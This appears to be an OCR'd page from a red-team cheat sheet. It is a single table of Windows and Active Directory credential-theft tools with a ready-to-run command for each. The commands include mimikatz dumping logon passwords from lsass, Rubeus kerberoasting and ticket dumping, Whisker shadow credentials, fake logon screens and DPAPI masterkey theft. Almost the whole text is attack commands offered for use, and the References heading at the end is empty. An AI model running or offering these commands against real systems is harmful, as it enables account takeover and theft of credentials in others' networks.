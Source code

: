 | **Type**    | **Approach**                           | **Url**                                              | **Command-line**                                                                                                                             |
|-------------|----------------------------------------|------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------|
| Plaintext   | Fake logonscreen                       | <https://github.com/bitsadmin/fakelogonscreen>       | `FakeLogonScreen.exe`                                                                                                                          |
| Plaintext   | Fake login prompt                      | <https://github.com/shantanu561993/SharpLoginPrompt> | `SharpLoginPrompt.exe`                                                                                                                         |
| Plaintext   | Create computer account                | <https://github.com/FuzzySecurity/StandIn>           | `StandIn.exe --computer DESKTOP-B1T54DM --make`                                                                                                |
| Plaintext   | Internal monologue                     | <https://github.com/eladshamir/Internal-Monologue>   | `InternalMonologue.exe`                                                                                                                        |
| Plaintext   | DPAPI masterkeys                       | <https://github.com/leftp/DPAPISnoop>                | `DPAPISnoop.exe`                                                                                                                                       |
| Plaintext   | Kerberoast                             | <https://github.com/GhostPack/Rubeus>                | `Rubeus.exe kerberoast /user:TargetUser`                                                                                                       |
| Plaintext   | ASEP Roast                             | <https://github.com/GhostPack/Rubeus>                | `Rubeus.exe asreproast /user:TargetUser`                                                                                                       |
| TGT         | TGT delegation                         | <https://github.com/GhostPack/Rubeus>                | `Rubeus.exe tgtdeleg /nowrap`                                                                                                                  |
| TGS         | Steal TGS from memory                  | <https://github.com/GhostPack/Rubeus>                | `Rubeus.exe dump /nowrap /user:TargetUser /service:TargetService`                                                                              |
| Certificate | Add shadow credential                  | <https://github.com/eladshamir/Whisker>              | `Whisker.exe add /target:TargetUser`                                                                                                           |
| Certificate | Request certificate from ADCS template | <https://github.com/GhostPack/Certify>               | `Certify.exe find`                                                                                                                             |
| Certificate | SharpAltSecIds                         | <https://github.com/bugch3ck/SharpAltSecIds>         | `SharpAltSecIds.exe a /target:TargetUser "/altsecid:X509:<I>DC=com,DC=bitsadmin,DC=ad,CN=LabSubCA1<S>DC=com,DC=bitsadmin,DC=ad,CN=mycert"` |
| Hash        | Elevante and obtain hashes from lsass  | <https://github.com/gentilkiwi/mimikatz>             | `mimikatz.exe privilege::debug sekurlsa::logonpasswords exit`                                                                                  |


# References
